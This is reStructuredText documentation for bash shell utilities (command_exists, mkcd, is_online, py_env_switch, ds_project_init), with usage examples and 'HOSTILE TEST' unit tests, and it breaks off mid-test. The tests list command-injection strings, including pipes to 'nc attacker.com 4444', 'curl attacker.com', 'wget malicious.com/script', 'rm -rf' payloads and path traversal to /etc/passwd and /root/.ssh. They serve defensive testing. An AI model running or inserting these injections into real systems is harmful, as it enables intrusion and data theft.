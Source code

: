 Core Functions API Reference
=============================

This section documents all core functions with their definitions, usage examples, and corresponding unit tests.

.. contents:: Functions in this module
   :local:
   :depth: 2

Essential Shell Utilities
--------------------------

command_exists()
~~~~~~~~~~~~~~~~

**Function Definition:**

.. code-block:: bash

   command_exists() {
       # Check if a command exists in the system
       # 
       # Args:
       #     command (str): Name of command to check
       #
       # Returns:
       #     0: Command exists
       #     1: Command not found
       command -v "$1" >/dev/null 2>&1
   }

**Examples and Elaboration:**

The ``command_exists`` function is a fundamental utility that safely checks for command availability without generating error output. This is essential for conditional loading of modules and graceful degradation.

.. code-block:: bash

   # Basic usage - check if a command exists
   if command_exists "docker"; then
       echo "Docker is available"
       load_docker_module
   else
       echo "Docker not found - skipping Docker integration"
   fi

   # Use in conditional statements
   command_exists "python" && echo "Python found" || echo "Python missing"

   # Check multiple commands
   for cmd in "git" "python" "node" "java"; do
       if command_exists "$cmd"; then
           echo "✅ $cmd: Available"
       else
           echo "❌ $cmd: Missing"
       fi
   done

   # Use in function definitions for robust error handling
   setup_development_env() {
       local required_commands=("git" "python" "node")
       for cmd in "${required_commands[@]}"; do
           if ! command_exists "$cmd"; then
               echo "Error: Required command '$cmd' not found"
               return 1
           fi
       done
       echo "All required commands available"
   }

**Unit Tests:**

.. code-block:: bash

   # HOSTILE TEST: Command injection resistance
   test_command_exists_injection_resistance() {
       # Test command injection attempts - should not execute malicious commands
       command_exists "ls; rm -rf /tmp/test_injection" >/dev/null 2>&1
       assert_equals $? 1 "Should reject command injection attempts"
       assert_false "[ -f '/tmp/test_injection_executed' ]" "Should not execute injected commands"

       # Test with command substitution attempts
       command_exists "\$(touch /tmp/command_exists_exploit)" >/dev/null 2>&1
       assert_equals $? 1 "Should reject command substitution attacks"
       assert_false "[ -f '/tmp/command_exists_exploit' ]" "Should not execute command substitution"
   }

   # HOSTILE TEST: Buffer overflow resistance with extremely long input
   test_command_exists_buffer_overflow_resistance() {
       local massive_input=$(printf 'A%.0s' {1..10000})  # 10KB string
       command_exists "$massive_input" >/dev/null 2>&1
       assert_equals $? 1 "Should handle massive input without crashing"

       # Verify function still works after stress test
       command_exists "bash" >/dev/null 2>&1
       assert_equals $? 0 "Function should remain operational after stress test"
   }

   # HOSTILE TEST: Special character and null byte handling
   test_command_exists_malicious_input() {
       # Test null bytes (common injection vector)
       command_exists "ls\x00rm" >/dev/null 2>&1
       assert_equals $? 1 "Should reject null byte injection"

       # Test various special characters that could break parsing
       local malicious_chars=(";" "&" "|" "\"" "'" "\`" "\$" "*" "?" "[" "]")
       for char in "${malicious_chars[@]}"; do
           command_exists "test${char}command" >/dev/null 2>&1
           assert_equals $? 1 "Should reject special character: $char"
       done
   }

   # HOSTILE TEST: Race condition and concurrent access
   test_command_exists_concurrent_stress() {
       # Test concurrent calls to detect race conditions
       local pids=()
       for i in {1..20}; do
           (command_exists "bash" >/dev/null 2>&1; echo $? > "/tmp/result_$i") &
           pids+=($!)
       done

       # Wait for all processes
       for pid in "${pids[@]}"; do
           wait "$pid"
       done

       # Verify all results are consistent
       for i in {1..20}; do
           local result=$(cat "/tmp/result_$i" 2>/dev/null || echo "FAIL")
           assert_equals "$result" "0" "Concurrent call $i should succeed"
           rm -f "/tmp/result_$i"
       done
   }

   # PERFORMANCE TEST: Response time under stress
   test_command_exists_performance_degradation() {
       local start_time=$(date +%s%N)

       # Run 100 iterations to detect performance degradation
       for i in {1..100}; do
           command_exists "bash" >/dev/null 2>&1
       done

       local end_time=$(date +%s%N)
       local duration_ms=$(( (end_time - start_time) / 1000000 ))

       # Should complete 100 iterations in under 1 second (1000ms)
       assert_true "(( duration_ms < 1000 ))" "100 iterations should complete within 1000ms, took ${duration_ms}ms"
   }

mkcd()
~~~~~~

**Function Definition:**

.. code-block:: bash

   mkcd() {
       # Create directory and change into it
       #
       # Args:
       #     directory_path (str): Path to directory to create
       #
       # Returns:
       #     0: Success
       #     1: Failed to create or enter directory
       mkdir -p "$1" && cd "$1"
   }

**Examples and Elaboration:**

The ``mkcd`` function combines the common pattern of creating a directory and immediately entering it. The ``-p`` flag ensures parent directories are created as needed, and the ``&&`` ensures we only change directories if creation succeeds.

.. code-block:: bash

   # Basic usage - create and enter directory
   mkcd "new_project"
   # Creates 'new_project' directory and changes into it

   # Create nested directories
   mkcd "projects/data_science/experiment_1"
   # Creates full path: projects/data_science/experiment_1

   # Use in project setup workflows
   setup_project() {
       local project_name="$1"
       mkcd "$project_name" || {
           echo "Failed to create project directory: $project_name"
           return 1
       }
       
       # Create project structure
       mkdir -p {src,tests,docs,data}
       echo "Project $project_name created successfully"
   }

   # Temporary directory creation
   create_temp_workspace() {
       local temp_dir="/tmp/workspace_$(date +%s)"
       mkcd "$temp_dir"
       echo "Working in temporary directory: $PWD"
   }

   # Error handling example
   mkcd "/root/restricted" || {
       echo "Cannot create directory in restricted location"
       mkcd "$HOME/alternative_location"
   }

**Unit Tests:**

.. code-block:: bash

   # HOSTILE TEST: Path traversal attack resistance
   test_mkcd_path_traversal_attack() {
       local original_dir="$PWD"

       # Test various path traversal attempts
       local attacks=(
           "../../../etc/passwd"
           "/tmp/../../../root/.ssh"
           "../../../../usr/bin/dangerous"
           "\x2e\x2e/\x2e\x2e/sensitive"
       )

       for attack in "${attacks[@]}"; do
           mkcd "$attack" 2>/dev/null || true

           # Should not end up in system directories
           assert_false "[[ '$PWD' =~ '/etc' ]]" "Should not traverse to /etc via: $attack"
           assert_false "[[ '$PWD' =~ '/root' ]]" "Should not traverse to /root via: $attack"
           assert_false "[[ '$PWD' =~ '/usr/bin' ]]" "Should not traverse to /usr/bin via: $attack"

           cd "$original_dir" 2>/dev/null || true
       done
   }

   # HOSTILE TEST: Command injection in directory names
   test_mkcd_command_injection_resistance() {
       local original_dir="$PWD"

       # Test command injection attempts
       local injection_attempts=(
           "test; rm -rf /tmp/injection_test"
           "test\$(touch /tmp/mkcd_exploit)"
           "test\`id > /tmp/mkcd_id\`"
           "test|nc -l 4444"
           "test&wget malicious.com/script"
       )

       for injection in "${injection_attempts[@]}"; do
           mkcd "/tmp/$injection" 2>/dev/null || true

           # Verify no commands were executed
           assert_false "[ -f '/tmp/injection_test' ]" "Should not execute rm command"
           assert_false "[ -f '/tmp/mkcd_exploit' ]" "Should not execute touch via command substitution"
           assert_false "[ -f '/tmp/mkcd_id' ]" "Should not execute id via backticks"

           cd "$original_dir" 2>/dev/null || true
       done
   }

   # HOSTILE TEST: Race condition with concurrent mkcd calls
   test_mkcd_race_condition_resistance() {
       local base_dir="/tmp/mkcd_race_test_$$"
       local pids=()

       # Launch multiple concurrent mkcd operations
       for i in {1..10}; do
           (
               mkcd "$base_dir/dir_$i" 2>/dev/null
               echo "SUCCESS:$i:$PWD" > "/tmp/mkcd_result_$i"
           ) &
           pids+=($!)
       done

       # Wait for all processes
       for pid in "${pids[@]}"; do
           wait "$pid" 2>/dev/null || true
       done

       # Verify all directories were created correctly
       local success_count=0
       for i in {1..10}; do
           if [[ -f "/tmp/mkcd_result_$i" ]]; then
               local result=$(cat "/tmp/mkcd_result_$i")
               if [[ "$result" =~ "SUCCESS:$i:.*dir_$i" ]]; then
                   ((success_count++))
               fi
           fi
           rm -f "/tmp/mkcd_result_$i"
       done

       assert_true "(( success_count >= 8 ))" "At least 8/10 concurrent mkcd operations should succeed (got $success_count)"

       # Cleanup
       rm -rf "$base_dir"
   }

   # HOSTILE TEST: Resource exhaustion resistance
   test_mkcd_resource_exhaustion_resistance() {
       local original_dir="$PWD"
       local temp_base="/tmp/mkcd_stress_$$"

       # Test creating many nested directories rapidly
       local max_depth=50
       local deep_path="$temp_base"

       for i in $(seq 1 $max_depth); do
           deep_path="$deep_path/level_$i"
       done

       # This should work without hanging or crashing
       local start_time=$(date +%s)
       mkcd "$deep_path" 2>/dev/null
       local end_time=$(date +%s)
       local duration=$((end_time - start_time))

       # Should complete within reasonable time (10 seconds)
       assert_true "(( duration < 10 ))" "Deep directory creation should complete quickly (took ${duration}s)"

       # Should be in the correct directory
       assert_true "[[ '$PWD' =~ 'level_50' ]]" "Should successfully navigate to deep directory"

       cd "$original_dir"
       rm -rf "$temp_base"
   }

   # HOSTILE TEST: Filesystem boundary attacks
   test_mkcd_filesystem_boundary_attacks() {
       local original_dir="$PWD"

       # Test various filesystem boundary conditions
       local boundary_tests=(
           "/dev/null/impossible"  # Special file as parent
           "/proc/self/fd/impossible"  # Process filesystem
           ""  # Empty string
           "/tmp/$(printf 'A%.0s' {1..1000})"  # Extremely long path
       )

       for test_path in "${boundary_tests[@]}"; do
           mkcd "$test_path" 2>/dev/null || true

           # Should handle gracefully without crashing
           assert_equals $? 1 "Should fail gracefully on impossible path: $test_path"
           assert_equals "$PWD" "$original_dir" "Should remain in original directory after failed mkcd"
       done
   }

is_online()
~~~~~~~~~~~

**Function Definition:**

.. code-block:: bash

   is_online() {
       # Check if internet connectivity is available
       #
       # Args:
       #     None
       #
       # Returns:
       #     0: Online (internet accessible)
       #     1: Offline (no internet connection)
       ping -c 1 google.com >/dev/null 2>&1
   }

**Examples and Elaboration:**

The ``is_online`` function provides a simple way to check internet connectivity before attempting network operations. It uses a single ping to Google's DNS servers, which is fast and reliable.

.. code-block:: bash

   # Basic connectivity check
   if is_online; then
       echo "Internet connection available"
       # Proceed with network operations
       update_packages
       download_dependencies
   else
       echo "No internet connection - working offline"
       use_cached_data
   fi

   # Use in deployment scripts
   deploy_application() {
       if ! is_online; then
           echo "Error: Internet connection required for deployment"
           return 1
       fi
       
       echo "Downloading latest dependencies..."
       npm install
       echo "Deploying to production..."
   }

   # Conditional package installation
   install_optional_packages() {
       local packages=("docker" "kubernetes-cli" "terraform")
       
       if is_online; then
           for package in "${packages[@]}"; do
               echo "Installing $package..."
               brew install "$package"
           done
       else
           echo "Offline - skipping optional package installation"
       fi
   }

   # Network-dependent configuration
   configure_development_env() {
       if is_online; then
           echo "Configuring for online development"
           export API_ENDPOINT="https://api.production.com"
           download_latest_schema
       else
           echo "Configuring for offline development"  
           export API_ENDPOINT="http://localhost:3000"
           use_local_schema
       fi
   }

**Unit Tests:**

.. code-block:: bash

   # HOSTILE TEST: Network command injection resistance
   test_is_online_injection_resistance() {
       # Override ping to detect injection attempts
       local injection_detected=false
       ping() {
           # Check if any arguments contain injection patterns
           for arg in "$@"; do
               if [[ "$arg" =~ [\;\&\|\$\`] ]]; then
                   injection_detected=true
               fi
           done
           return 1  # Always fail to prevent actual network calls
       }

       # Test the function (should not trigger injection)
       is_online >/dev/null 2>&1

       assert_false "$injection_detected" "is_online should not be vulnerable to command injection"

       # Restore original ping
       unset -f ping
   }

   # HOSTILE TEST: DNS manipulation and timeout resistance
   test_is_online_dns_manipulation_resistance() {
       # Test with various DNS manipulation scenarios
       local timeouts_passed=0

       # Override ping to simulate various DNS attack scenarios
       ping() {
           case "$*" in
               *google.com*)
                   # Simulate slow DNS response (should timeout quickly)
                   sleep 2
                   return 1
                   ;;
               *)
                   return 1
                   ;;
           esac
       }

       local start_time=$(date +%s)
       is_online >/dev/null 2>&1
       local end_time=$(date +%s)
       local duration=$((end_time - start_time))

       # Should timeout quickly even with slow DNS
       assert_true "(( duration <= 3 ))" "Should timeout quickly with slow DNS (took ${duration}s)"

       unset -f ping
   }

   # HOSTILE TEST: Concurrent network check stress
   test_is_online_concurrent_stress() {
       local pids=()
       local start_time=$(date +%s)

       # Override ping to control behavior
       ping() {
           sleep 0.1  # Small delay to test concurrency
           return $(( RANDOM % 2 ))  # Random success/failure
       }

       # Launch many concurrent network checks
       for i in {1..20}; do
           (is_online >/dev/null 2>&1; echo $? > "/tmp/online_result_$i") &
           pids+=($!)
       done

       # Wait for all
       for pid in "${pids[@]}"; do
           wait "$pid" 2>/dev/null || true
       done

       local end_time=$(date +%s)
       local total_duration=$((end_time - start_time))

       # Should handle concurrent calls efficiently
       assert_true "(( total_duration <= 5 ))" "20 concurrent calls should complete within 5s (took ${total_duration}s)"

       # Verify all processes completed
       local completed=0
       for i in {1..20}; do
           if [[ -f "/tmp/online_result_$i" ]]; then
               ((completed++))
               rm -f "/tmp/online_result_$i"
           fi
       done

       assert_true "(( completed >= 18 ))" "At least 18/20 concurrent checks should complete (got $completed)"

       unset -f ping
   }

   # HOSTILE TEST: Resource exhaustion during network operations
   test_is_online_resource_exhaustion() {
       # Test rapid repeated calls to detect resource leaks
       local memory_start=$(ps -o rss= -p $$ 2>/dev/null || echo 0)

       # Override ping for controlled testing
       ping() {
           return 1  # Always fail quickly
       }

       # Make many rapid calls
       for i in {1..100}; do
           is_online >/dev/null 2>&1
       done

       local memory_end=$(ps -o rss= -p $$ 2>/dev/null || echo 0)
       local memory_increase=$((memory_end - memory_start))

       # Should not leak significant memory (allow 1MB increase)
       assert_true "(( memory_increase < 1024 ))" "Should not leak memory during repeated calls (leaked ${memory_increase}KB)"

       unset -f ping
   }

   # HOSTILE TEST: Network interface manipulation resistance
   test_is_online_interface_manipulation() {
       # Test behavior when network interfaces are manipulated
       local original_ping=$(which ping 2>/dev/null || echo "/bin/ping")

       # Create a fake ping that could be used in path manipulation attacks
       mkdir -p "/tmp/fake_bin"
       cat > "/tmp/fake_bin/ping" << 'EOF'
#!/bin/bash
echo "FAKE_PING_EXECUTED" > /tmp/ping_hijack_detected
exit 0
EOF
       chmod +x "/tmp/fake_bin/ping"

       # Temporarily modify PATH to include fake binary first
       export PATH="/tmp/fake_bin:$PATH"

       is_online >/dev/null 2>&1

       # Should not execute fake ping
       assert_false "[ -f '/tmp/ping_hijack_detected' ]" "Should not execute hijacked ping binary"

       # Restore PATH and cleanup
       export PATH="${PATH#/tmp/fake_bin:}"
       rm -rf "/tmp/fake_bin"
       rm -f "/tmp/ping_hijack_detected"
   }

Python Environment Management
-----------------------------

py_env_switch()
~~~~~~~~~~~~~~~

**Function Definition:**

.. code-block:: bash

   py_env_switch() {
       # Quick switch between Python environments (cross-shell compatible)
       #
       # Usage:
       #   py_env_switch list           # List all environments
       #   py_env_switch myenv          # Switch to pyenv environment
       #   py_env_switch uv             # Use UV in current directory
       local target="${1:-list}"
       
       case "$target" in
           "list"|"-l"|"--list")
               echo "🐍 Available Python Environments:"
               echo ""
               echo "📦 Pyenv Environments:"
               if command_exists pyenv; then
                   pyenv versions | sed 's/^/  /'
               else
                   echo "  ❌ Pyenv not installed"
               fi
               echo ""
               echo "⚡ UV Projects:"
               if [[ -f "pyproject.toml" ]]; then
                   echo "  ✅ Current directory has UV project"
               else
                   echo "  ❌ No UV project in current directory"
               fi
               echo ""
               echo "Usage:"
               echo "  py_env_switch <env_name>    # Switch to pyenv environment"
               echo "  py_env_switch uv            # Activate UV project here"
               ;;
           "uv")
               if [[ -f "pyproject.toml" ]]; then
                   if [[ -d ".venv" ]]; then
                       echo "⚡ Activating UV project: $(basename $PWD)"
                       source .venv/bin/activate
                   else
                       echo "🔨 Setting up UV project..."
                       uv sync && source .venv/bin/activate
                   fi
               else
                   echo "❌ No pyproject.toml found. Run 'uv init' to create a UV project."
               fi
               ;;
           *)
               if command_exists pyenv; then
                   echo "🐍 Switching to pyenv environment: $target"
                   pyenv activate "$target" 2>/dev/null || {
                       echo "❌ Environment '$target' not found. Available:"
                       pyenv versions
                   }
               else
                   echo "❌ Pyenv not available"
               fi
               ;;
       esac
   }

**Examples and Elaboration:**

The ``py_env_switch`` function provides unified Python environment management across pyenv and UV, supporting both development workflows seamlessly.

.. code-block:: bash

   # List all available environments
   py_env_switch list
   # Shows both pyenv environments and UV projects

   # Switch to a specific pyenv environment
   py_env_switch data_science
   # Activates the 'data_science' pyenv environment

   # Activate UV project in current directory
   cd my_uv_project
   py_env_switch uv
   # Sets up and activates UV virtual environment

   # Use in project setup scripts
   setup_data_science_project() {
       local project_name="$1"
       local env_type="${2:-uv}"
       
       mkcd "$project_name"
       
       case "$env_type" in
           "uv")
               uv init --name "$project_name" --python 3.11
               uv add pandas numpy matplotlib jupyter
               py_env_switch uv
               ;;
           "pyenv")
               py_env_switch "$project_name" || {
                   echo "Creating new pyenv environment..."
                   pyenv virtualenv 3.11 "$project_name"
                   py_env_switch "$project_name"
               }
               ;;
       esac
   }

   # Environment-specific workflows
   analyze_with_spark() {
       py_env_switch spark_env
       smart_spark_submit analysis.py
   }

   analyze_with_uv() {
       py_env_switch uv
       uv run python analysis.py
   }

**Unit Tests:**

.. code-block:: bash

   # HOSTILE TEST: Python environment injection attacks
   test_py_env_switch_injection_resistance() {
       local injection_attempts=(
           "test_env; rm -rf /tmp/python_injection"
           "env\$(touch /tmp/pyenv_exploit)"
           "env\`id > /tmp/pyenv_id\`"
           "../../../etc/passwd"
           "env|nc attacker.com 4444"
       )

       for injection in "${injection_attempts[@]}"; do
           py_env_switch "$injection" >/dev/null 2>&1

           # Verify no malicious commands were executed
           assert_false "[ -f '/tmp/python_injection' ]" "Should not execute rm via injection: $injection"
           assert_false "[ -f '/tmp/pyenv_exploit' ]" "Should not execute touch via command substitution: $injection"
           assert_false "[ -f '/tmp/pyenv_id' ]" "Should not execute id via backticks: $injection"
       done
   }

   # HOSTILE TEST: UV project file manipulation
   test_py_env_switch_uv_file_manipulation() {
       local test_dir="/tmp/test_uv_hostile_$$"
       mkcd "$test_dir"

       # Create malicious pyproject.toml with potential injection
       cat > pyproject.toml << 'EOF'
[project]
name = "test-project; rm -rf /tmp/uv_attack"
description = "$(touch /tmp/uv_exploit)"
script = "`id > /tmp/uv_id`"
EOF

       # Create fake activation script with malicious content
       mkdir -p .venv/bin
       cat > .venv/bin/activate << 'EOF'
#!/bin/bash
rm -rf /tmp/malicious_cleanup
touch /tmp/venv_hijacked
export VIRTUAL_ENV="HIJACKED"
EOF
       chmod +x .venv/bin/activate

       py_env_switch uv >/dev/null 2>&1

       # Verify malicious content was not executed
       assert_false "[ -f '/tmp/uv_attack' ]" "Should not execute commands from project name"
       assert_false "[ -f '/tmp/uv_exploit' ]" "Should not execute commands from description"
       assert_false "[ -f '/tmp/uv_id' ]" "Should not execute commands from script field"
       assert_false "[ -f '/tmp/malicious_cleanup' ]" "Should not execute malicious activation script"
       assert_false "[ -f '/tmp/venv_hijacked' ]" "Should not allow activation script hijacking"

       # Cleanup
       cd /tmp && rm -rf "$test_dir"
   }

   # HOSTILE TEST: Pyenv environment name manipulation
   test_py_env_switch_pyenv_name_manipulation() {
       # Mock pyenv to test name handling
       pyenv() {
           case "$1" in
               "versions")
                   # Return malicious environment names
                   echo "  system"
                   echo "* test_env; rm -rf /tmp/pyenv_attack"
                   echo "  env\$(touch /tmp/pyenv_exploit)"
                   echo "  env\`id > /tmp/pyenv_id\`"
                   ;;
               "activate")
                   # Should receive properly quoted/escaped arguments
                   if [[ "$2" =~ [\;\$\`\|\&] ]]; then
                       touch "/tmp/pyenv_injection_detected"
                   fi
                   return 1  # Always fail to prevent actual activation
                   ;;
           esac
       }

       # Test listing environments (should handle malicious names safely)
       py_env_switch list >/dev/null 2>&1

       # Test switching to malicious environment name
       py_env_switch "test_env; rm -rf /tmp/pyenv_attack" >/dev/null 2>&1

       # Verify no commands were executed
       assert_false "[ -f '/tmp/pyenv_attack' ]" "Should not execute commands from environment name"
       assert_false "[ -f '/tmp/pyenv_exploit' ]" "Should not execute command substitution from env name"
       assert_false "[ -f '/tmp/pyenv_id' ]" "Should not execute backticks from env name"
       assert_false "[ -f '/tmp/pyenv_injection_detected' ]" "Should properly escape arguments to pyenv"

       unset -f pyenv
   }

   # HOSTILE TEST: Concurrent environment switching race conditions
   test_py_env_switch_race_conditions() {
       local test_base="/tmp/py_race_test_$$"
       mkdir -p "$test_base"
       local pids=()

       # Create multiple UV projects
       for i in {1..5}; do
           local project_dir="$test_base/project_$i"
           mkdir -p "$project_dir/.venv/bin"
           echo '[project]' > "$project_dir/pyproject.toml"
           echo "name = \"project-$i\"" >> "$project_dir/pyproject.toml"
           echo '#!/bin/bash' > "$project_dir/.venv/bin/activate"
           echo "export VIRTUAL_ENV='$project_dir/.venv'" >> "$project_dir/.venv/bin/activate"
           chmod +x "$project_dir/.venv/bin/activate"
       done

       # Launch concurrent environment switches
       for i in {1..5}; do
           (
               cd "$test_base/project_$i"
               py_env_switch uv >/dev/null 2>&1
               echo "$VIRTUAL_ENV" > "/tmp/race_result_$i"
           ) &
           pids+=($!)
       done

       # Wait for all processes
       for pid in "${pids[@]}"; do
           wait "$pid" 2>/dev/null || true
       done

       # Verify each process activated correct environment
       local success_count=0
       for i in {1..5}; do
           if [[ -f "/tmp/race_result_$i" ]]; then
               local result=$(cat "/tmp/race_result_$i")
               if [[ "$result" =~ "project_$i" ]]; then
                   ((success_count++))
               fi
               rm -f "/tmp/race_result_$i"
           fi
       done

       assert_true "(( success_count >= 4 ))" "At least 4/5 concurrent switches should succeed (got $success_count)"

       # Cleanup
       rm -rf "$test_base"
   }

   # HOSTILE TEST: Environment variable pollution resistance
   test_py_env_switch_env_pollution() {
       local original_dir="$PWD"
       local test_dir="/tmp/test_env_pollution_$$"
       mkcd "$test_dir"

       # Pollute environment with malicious variables
       export VIRTUAL_ENV="/malicious/path"
       export PYENV_VERSION="evil_version; rm -rf /tmp/env_attack"
       export PYTHONPATH="/malicious:/paths:$PYTHONPATH"
       export PATH="/fake/python/bin:$PATH"

       # Create legitimate UV project
       echo '[project]' > pyproject.toml
       echo 'name = "clean-project"' >> pyproject.toml
       mkdir -p .venv/bin
       echo '#!/bin/bash' > .venv/bin/activate
       echo "export VIRTUAL_ENV='$test_dir/.venv'" >> .venv/bin/activate
       chmod +x .venv/bin/activate

       py_env_switch uv >/dev/null 2>&1

       # Should properly override polluted environment
       assert_equals "$VIRTUAL_ENV" "$test_dir/.venv" "Should override polluted VIRTUAL_ENV"

       # Verify no malicious commands were executed
       assert_false "[ -f '/tmp/env_attack' ]" "Should not execute commands from polluted PYENV_VERSION"

       cd "$original_dir"
       rm -rf "$test_dir"

       # Restore clean environment
       unset VIRTUAL_ENV PYENV_VERSION
       export PYTHONPATH="${PYTHONPATH#/malicious:/paths:}"
       export PATH="${PATH#/fake/python/bin:}"
   }

ds_project_init()
~~~~~~~~~~~~~~~~~

**Function Definition:**

.. code-block:: bash

   ds_project_init() {
       # Initialize a data science project with UV
       #
       # Usage:
       #   ds_project_init myproject        # Basic data science project
       #   ds_project_init myproject spark  # With Spark dependencies
       local project_name="$1"
       local project_type="${2:-basic}"
       
       if [[ -z "$project_name" ]]; then
           echo "Usage: ds_project_init <project_name> [basic|spark|geo]"
           return 1
       fi
       
       echo "🔬 Creating data science project: $project_name"
       mkdir -p "$project_name" && cd "$project_name"
       
       # Initialize UV project
       uv init --name "$project_name" --python 3.11
       
       # Add common data science dependencies
       echo "📦 Adding data science dependencies..."
       uv add pandas numpy matplotlib seaborn jupyter ipykernel
       
       case "$project_type" in
           "spark")
               echo "⚡ Adding Spark dependencies..."
               uv add pyspark findspark
               ;;
           "geo")
               echo "🌍 Adding geospatial dependencies..."
               uv add geopandas folium contextily
               ;;
       esac
       
       # Create project structure
       mkdir -p {notebooks,data/{raw,processed},src,tests}
       
       echo "✅ Data science project '$project_name' created!"
       echo "🚀 Next steps:"
       echo "  source .venv/bin/activate"
       echo "  jupyter lab"
   }

**Examples and Elaboration:**

The ``ds_project_init`` function creates a complete data science project structure with appropriate dependencies based on the project type.

.. code-block:: bash

   # Create basic data science project
   ds_project_init "sales_analysis"
   # Creates project with pandas, numpy, matplotlib, jupyter

   # Create Spark-enabled data science project
   ds_project_init "big_data_analysis" spark
   # Adds PySpark and Findspark for distributed computing

   # Create geospatial analysis project
   ds_project_init "location_analysis" geo
   # Adds GeoPandas, Folium, Contextily for mapping

   # Use in automated workflows
   create_monthly_analysis() {
       local month=$(date +%Y-%m)
       ds_project_init "analysis_$month" spark
       
       cd "analysis_$month"
       
       # Add custom analysis template
       cat > notebooks/monthly_report.ipynb << 'EOF'
   {
       "cells": [
           {
               "cell_type": "code",
               "source": ["import pandas as pd\nimport pyspark"]
           }
       ]
   }
   EOF
   
       echo "Monthly analysis project ready: analysis_$month"
   }

**Unit Tests:**

.. code-block:: bash

   # HOSTILE TEST: Project name injection and filesystem attacks
   test_ds_project_init_name_injection() {
       local original_dir="$PWD"
       local malicious_names=(
           "project; rm -rf /tmp/ds_attack"
           "../../../etc/malicious_project"
           "project\$(touch /tmp/ds_exploit)"
           "project\`id > /tmp/ds_id\`"
           "project|nc attacker.com 4444"
           "/root/.ssh/unauthorized_project"
       )

       for name in "${malicious_names[@]}"; do
           ds_project_init "$name" >/dev/null 2>&1

           # Verify no malicious commands executed
           assert_false "[ -f '/tmp/ds_attack' ]" "Should not execute rm command from name: $name"
           assert_false "[ -f '/tmp/ds_exploit' ]" "Should not execute touch from name: $name"
           assert_false "[ -f '/tmp/ds_id' ]" "Should not execute id from name: $name"

           # Verify no unauthorized directory creation
           assert_false "[ -d '/etc/malicious_project' ]" "Should not create project in /etc"
           assert_false "[ -d '/root/.ssh/unauthorized_project' ]" "Should not create project in /root/.ssh"
       done

       cd "$original_dir"
   }

   # HOSTILE TEST: Project type manipulation and dependency injection
   test_ds_project_init_type_injection() {
       local original_dir="$PWD"
       local test_project="test_safe_project_$$"

       # Mock uv to detect injection attempts
       local uv_injection_detected=false
       uv() {
           for arg in "$@"; do
               if [[ "$arg" =~ [\;\&\|\$\`] ]]; then
                   uv_injection_detected=true
                   touch "/tmp/uv_injection_detected"
               fi
           done
           return 0  # Mock successful operation
       }

       # Test malicious project types
       local malicious_types=(
           "spark; rm -rf /tmp/type_attack"
           "geo\$(wget malicious.com/script)"
           "basic\`nc -l 4444\`"
           "type|curl attacker.com"
       )

       for type in "${malicious_types[@]}"; do
           ds_project_init "$test_project" "$type" >/dev/null 2>&1

           # Cleanup project if created
           [[ -d "$test_project" ]] && rm -rf "$test_project"
       done

       # Verify no injection occurred
